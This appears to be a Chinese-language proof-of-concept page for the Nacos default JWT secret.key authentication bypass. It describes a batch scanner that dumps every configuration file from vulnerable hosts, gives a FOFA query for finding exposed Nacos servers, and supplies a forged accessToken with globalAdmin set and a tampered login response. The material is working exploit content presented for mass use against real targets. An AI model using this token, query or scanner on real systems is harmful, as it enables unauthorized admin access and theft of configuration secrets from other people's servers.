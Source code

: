 # Nacos JWT 硬编码登陆

# 0x0x 梭哈

[nacosScan.py](/pochub/nacos/nacosScan.py ':ignore')

do what?

- [x] 读取 url.txt 文件，批量验证 Nacos JWT 漏洞
  - [x] 支持url，或者直接输入 host、ip 重定向

- [x] 获取全部配置文件信息，存储在 output 目录中
  - [x] 使用默认 accessToken，可 -t 修改
- [x] 解析配置文件的轮子
  - [x] 提取期望 key，新增直接添加到 niceKey 数组
    - [x] 解析 yaml、yml 文件
    - [ ] json、 properties、无后缀的遇到再加，目前简单处理

效果图

![image-20230531231729266](attachments/image-20230531231729266.png)

# 0x00 概述

## 漏洞描述

Nacos 提供了一组简单易用的特性集，帮助您快速实现动态服务发现、服务配置、服务元数据及流量管理。若您Nacos未修改 secret.key，则攻击者可利用默认secret.key生成JWT Token，从而造成权限绕过访问到相关API接口。

## 影响范围

0.1.0<=com.alibaba.nacos:nacos-console<2.2.0.1

# 0x01 环境

fofa

```
app="NACOS" 
```

# 0x02 复现

抓取登陆包，修改响应包状态码和 body

```json
{
"accessToken":
"eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY3NTA4Mzg3N30.mIjNX6MXNF3FgQNTl-FduWpsaTSZrOQZxTCu7Tg46ZU","tokenTtl": 18000,
"globalAdmin": true,"username":"nacos"
}
```

![image-20230530101351383](attachments/image-20230530101351383.png)









